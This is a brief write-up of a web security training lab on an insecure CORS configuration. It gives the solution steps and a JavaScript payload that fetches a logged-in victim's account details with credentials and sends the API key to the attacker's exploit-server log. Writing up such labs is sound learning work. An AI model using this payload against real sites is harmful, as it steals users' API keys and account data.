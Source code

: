 ----

### Lab description

- This website has an insecure CORS configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: `wiener:peter`


#### Lab solution

1 - First authenticate with, `peter` and go to `accountDetails` endpoint. 
2 - Add `Origin` header with any value
3 - Verify that the value reflect

![](/static/img/Pasted_image_20230724211506.png)

4 - Go to exploit server, and use the payload

```javascript

`<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>`

```

5 - Send to the victim and verify the logs

![](/static/img/Pasted_image_20230724211914.png)
